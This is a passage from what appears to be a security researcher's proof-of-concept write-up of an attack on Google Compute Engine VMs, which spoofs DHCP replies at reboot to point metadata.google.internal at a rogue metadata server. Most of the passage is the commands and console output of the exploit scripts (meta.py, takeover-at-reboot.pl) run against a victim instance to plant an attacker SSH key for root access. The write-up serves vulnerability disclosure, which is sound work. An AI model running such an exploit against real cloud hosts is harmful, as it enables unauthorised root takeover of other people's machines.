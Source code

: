 ## Attack #1

As described above, you need to run a rogue metadata server running a host with port 80 open from the internet. 
I used 35.209.180.239 for this purpose (this is the public IP address of 10.128.0.2, a compute engine box actually), 
meta.py is running here:

```
	root@test-instance-1:~/isc-dhcp-client/real3# ./meta.py
	Usage: ./meta.py id_rsa.pub

	root@test-instance-1:~/isc-dhcp-client/real3# ./meta.py id_rsa.pub
```

My proof of concept exploits a simplified setup, when the victim box is being rebooted. In this case unixtime
of the dhclient process can be guessed easily.

```
	root@test-instance-1:~/isc-dhcp-client/real3# ./takeover-at-reboot.pl
	Usage: ./takeover-at-reboot.pl victim-ip-address meta-ip-address
```

The victim box is `10.128.0.4` here. The public IP address of this host is `34.67.219.89`.
Verifying first we don't have access using the RSA private key that belongs to id_rsa.pub referenced above 
for meta.py:

```
	root@builder:/opt/_tmp/dhcp/exploit# ssh -i id_rsa root@34.67.219.89
	Permission denied (publickey).
```

Then the attack is started:

```
	root@test-instance-1:~/isc-dhcp-client/real3# ./takeover-at-reboot.pl 10.128.0.4 35.209.180.239

	10.128.0.4: alive: 1601231808...
```

Then I type reboot on the victim host (`10.128.0.4`). The rest of the output of `takeover-at-reboot.pl`:
	
```
	10.128.0.4 seems to be not alive anymore
	RUN: ip addr show dev ens4 | awk '/inet / {print $2}' | cut -d/ -f1
	RUN: ip route show default | awk '/via/ {print $3}'
	NIC: ens4
	Min pid: 290
	Max pid: 315
	Min ts: 1601231808
	Max ts: 1601231823
	My IP: 10.128.0.2
	Router: 10.128.0.1
	Target IP: 10.128.0.4
	Target MAC: 42:01:0a:80:00:04
	Number of potential xids: 41
	Initial OFFER+ACK flood
	MAC: 42:01:0a:80:00:04
	Src IP: 10.128.0.2
	Dst IP: 10.128.0.4
	New IP: 35.209.180.239
	New hostname: metadata.google.internal
	New route:
	ACK: true
	Offer: true
	Oneshot: false
```